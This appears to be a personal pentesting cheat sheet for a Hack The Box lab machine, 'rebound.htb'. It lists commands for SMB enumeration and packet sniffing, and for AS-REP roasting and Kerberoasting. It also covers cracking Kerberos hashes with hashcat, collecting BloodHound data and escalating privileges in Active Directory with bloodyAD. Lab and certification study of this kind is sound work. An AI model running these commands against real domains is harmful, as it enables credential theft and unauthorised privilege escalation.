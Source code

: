 # Pentesting Guides
https://web.archive.org/web/20221126165225/https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html#enumeration
https://kolegite.com/EE_library/books_and_lectures/%D0%9A%D0%B8%D0%B1%D0%B5%D1%80%D1%81%D0%B8%D0%B3%D1%83%D1%80%D0%BD%D0%BE%D1%81%D1%82/RTFM%20Red%20Team%20Field%20Manual%20v2%20--%20Ben%20Clark%20%26%20Nick%20Downer.pdf

# Recon - Grep network packets
```bash
sudo ngrep -i -d <network interface> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -U '%' -N -L \\\\10.10.10.10\\
```

# Windows Notes

## Windows ISOs
https://uupdump.net/

## AD Commands
```ps
# AS-REP
GetNPUsers.py rebound.htb/ -usersfile users.txt -dc-ip 10.10.11.231 -format hashcat -outputfile as_rep_hashes.txt | grep -F -e '[+]' -e '[-]'

# Kerberos 5, etype 23, AS-REP
hashcat -m 18200 -a 0 -O -w 4 hash rockyou.txt

# Kerberos 5, etype 23, TGS-REP
hashcat -m 13100 -a 0 -O -w 4 hashes.txt rockyou.tx

# https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication
GetUserSPNs.py -target-domain rebound.htb -usersfile users.txt -dc-ip 10.10.11.231 rebound.htb/guest -no-pass

# Sync clock with DC
timedatectl set-ntp 0
sudo ntpdate -qu rebound.htb
sudo ntpdate rebound.htb

# Rust BloodHound ingestor - https://github.com/NH-RED-TEAM/RustHound
/home/kali/.cargo/bin/rusthound -d rebound.htb -u 'ldap_monitor@rebound' -p $passwd -i 10.10.11.231 --zip --ldaps

# AD Privilege Escalation Framework - https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
# Add user to group
python bloodyAD.py -u oorend -p 'pass' -d rebound.htb --host 10.10.11.231 add groupMember SERVICEMGMT oorend

# you should see response below 
[+] oorend added to SERVICEMGMT

# Grant user GenericAll permissions over an OU
python bloodyAD.py -d rebound.htb -u oorend -p 'pass' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

# you should see response below 
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB

```